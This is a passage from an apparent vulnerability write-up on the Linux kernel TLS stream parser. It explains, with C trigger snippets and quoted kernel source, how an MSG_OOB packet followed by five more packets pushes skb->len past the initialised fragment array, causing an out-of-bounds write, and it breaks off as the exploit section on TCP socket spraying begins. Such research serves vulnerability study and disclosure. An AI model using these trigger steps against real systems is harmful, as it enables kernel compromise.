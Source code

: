 To bypass this, we first **send a `MSG_OOB` packet to update `urg_seq`**:

``` c
send(client_fd, ptr, 1, MSG_OOB);
```

Afterwards, we can **trigger `tls_strp_copyin_frag()` by sending additional packets**. Each packet increases `skb->len` by `0x1000`.

According to `tls_strp_read_copy()`, five pages [1] are allocated and populated into the fragment array of the anchor `skb` [2]:

``` c
static int tls_strp_read_copy(struct tls_strparser *strp, bool qshort)
{
    // [...]
    need_spc = strp->stm.full_len ?: TLS_MAX_PAYLOAD_SIZE /* 0x4000 */ + PAGE_SIZE /* 0x1000 */; // [1]
    
    // [...]
    for (len = need_spc; len > 0; len -= PAGE_SIZE) {
        page = alloc_page(strp->sk->sk_allocation);
        // [...]
        skb_fill_page_desc(strp->anchor, shinfo->nr_frags++, // [2]
                   page, 0, 0);
    }
}
```

So, after sending four packets (excluding the initial OOB), `skb->len` becomes 4 x `0x1000` = `0x4000`. The initial OOB also increases `skb->len` by `0x1000`, so **the total is `0x5000`**. At this point `skb->len / PAGE_SIZE == 5`, which exceeds the initialized fragment array and causes an out-of-bounds access. The out-of-bounds access in `frags[]` will be triggered when **the fifth packet** is sent.

``` c
for (int i = 0; i < 4; i++) {
    send(client_fd, ptr, 1, 0);
}
send(client_fd, ptr, 1, 0);
```

## 3. Exploit

### 3.1. Spraying TCP Socket

The anchor packet is allocated in `tls_strp_init()`:

``` c
int tls_strp_init(struct tls_strparser *strp, struct sock *sk)
{
    // [...]
    strp->sk = sk;
    strp->anchor = alloc_skb(0, GFP_KERNEL);
    // [...]
}
```

